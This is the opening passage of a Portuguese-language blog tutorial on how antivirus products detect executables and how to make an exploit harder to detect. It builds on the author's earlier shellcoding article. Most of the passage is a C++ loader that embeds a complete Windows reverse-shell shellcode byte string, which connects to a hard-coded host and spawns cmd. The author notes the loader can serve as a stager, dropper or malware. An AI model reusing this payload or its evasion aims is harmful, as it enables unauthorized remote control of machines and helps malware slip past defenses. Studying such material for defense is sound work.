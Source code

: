 Em meu [último artigo](https://h41stur.com/posts/shellcoding101/#shellcode-com-endere%C3%A7os-din%C3%A2micos), abordei sobre os princípios de desenvolvimento de *shellcodes*. Durante o processo, acabei me aprofundando bastante em *shellcodes* voltados para o Windows SO, o que me despertou várias ideias para novos artigos.

Decidi, então, focar um tempo para explorar técnicas voltadas para explorações comuns destes ambientes, uma vez que o conteúdo desse tipo é bastante escasso em nosso idioma.

A ideia é de que um artigo só seja publicado, caso o seu conteúdo base já esteja em artigo(s) anterior(es). Com o passar do tempo, teremos um *roadmap* inteiro sobre diversos assuntos que se interligam.

Este artigo apresenta algumas técnicas gerais das quais os antivírus utilizam para identificar um executável como ameaça ou não, assim como técnicas para dificultar esta identificação.

Lembrando que cada AV possui técnicas e complexidades diferentes de análise e não existe uma bala de prata que sirva para tornar algo 100% indetectável, porém, este conteúdo serve como esclarecimento para ações que podem ser tomadas para desenvolver um *exploit* mais eficaz.

Esse processo de documentação, por mais que seja trabalhos, é muito prazeroso, pois nada mais é do que eu fazendo o que gosto e ainda compartilhando meu centavo com a comunidade.

Portanto, este artigo fará ligação direta com o [Shellcoding 101](https://h41stur.com/posts/shellcoding101/#shellcode-com-endere%C3%A7os-din%C3%A2micos) (diria extremamente dependente), recomendo fortemente lê-lo antes de dar o próximo passo aqui.

Boa leitura e boa sorte!

# Desconstruindo para reconstruir

Durante o desenvolvimento dos *shellcodes* vários outros recursos foram gerados, como scripts em Go para trabalharmos com hexadecimais, scripts ASM contendo o *shellcode* em Assembly, programas em C e C++ para testarmos a injeção dos *shellcodes*.

O programa em C++ feito para testar os *shellcodes* no Windows SO, chama a atenção por um detalhe adjacente. Ele foi feito para simular um programa vulnerável que nos permite a injeção de uma *string* de *bytes*, porém, ele pode ser visto de outras formas.

Uma vez que temos um programa que consegue injetar esta *string* de *bytes* na memória e executá-lo, então este programa também pode ser utilizado com fins maliciosos, ou seja, ele pode ser um agente, um *stager*, um *dropper* e até mesmo um *malware* no sentido geral.

Abaixo o código-fonte do último exemplo utilizado no artigo que gera um *reverse shell* invocando APIs do Windows:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <windows.h>

unsigned char shellcode[] =
"\x31\xc0\x64\xa1\x30\x00\x00\x00\x8b\x40\x0c\x8b\x40\x14\x8b\x00\x8b\x00\x8b\x58\x10\x31\xd2\x68\x73\x73\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x64\x64\x72\x65\x68\x72\x6f\x63\x41\x68\x47\x65\x74\x50\x8b\x53\x3c\x01\xda\x8b\x52\x78\x01\xda\x8b\x4a\x20\x01\xd9\x89\x4d\xfc\x8b\x52\x1c\x01\xda\x31\xc0\x31\xc9\x89\xe6\x8b\x7d\xfc\x8b\x3c\x87\x01\xdf\x66\x83\xc1\x07\xf3\x66\xa7\x74\x03\x40\xe2\xe8\x83\xc0\x02\x8b\x3c\x82\x01\xdf\x89\xfd\x31\xc9\x51\x68\x61\x72\x79\x41\x68\x4c\x69\x62\x72\x68\x4c\x6f\x61\x64\x54\x53\xff\xd5\x68\x33\x32\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x77\x73\x32\x5f\x54\xff\xd0\x89\xc6\x68\x75\x70\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x74\x61\x72\x74\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x66\xba\x90\x01\x29\xd4\x54\x52\xff\xd0\x68\x74\x41\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x6f\x63\x6b\x65\x68\x57\x53\x41\x53\x54\x56\xff\xd5\x31\xd2\x52\x52\x52\xb2\x06\x52\x80\xea\x05\x52\x42\x52\xff\xd0\x50\x5f\x68\x65\x63\x74\x4e\x66\x83\x6c\x24\x03\x4e\x68\x63\x6f\x6e\x6e\x54\x56\xff\xd5\xba\xc1\xa9\x48\x81\x81\xea\x01\x01\x01\x01\x52\x66\x68\x20\xfb\x31\xd2\xb2\x02\x66\x52\x89\xe2\x6a\x10\x52\x57\xff\xd0\x68\x73\x41\x4e\x4e\x66\x81\x6c\x24\x02\x4e\x4e\x68\x6f\x63\x65\x73\x68\x74\x65\x50\x72\x68\x43\x72\x65\x61\x54\x53\xff\xd5\x89\xde\x68\x63\x6d\x64\x4e\x66\x83\x6c\x24\x03\x4e\x89\xe3\x57\x57\x57\x31\xff\x6a\x12\x59\x57\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\xc6\x44\x24\x10\x44\x8d\x4c\x24\x10\x54\x51\x57\x57\x57\x47\x57\x4f\x57\x57\x53\x57\xff\xd0\x68\x65\x73\x73\x4e\x66\x83\x6c\x24\x03\x4e\x68\x50\x72\x6f\x63\x68\x45\x78\x69\x74\x54\x56\xff\xd5\x31\xc9\x51\xff\xd0";
```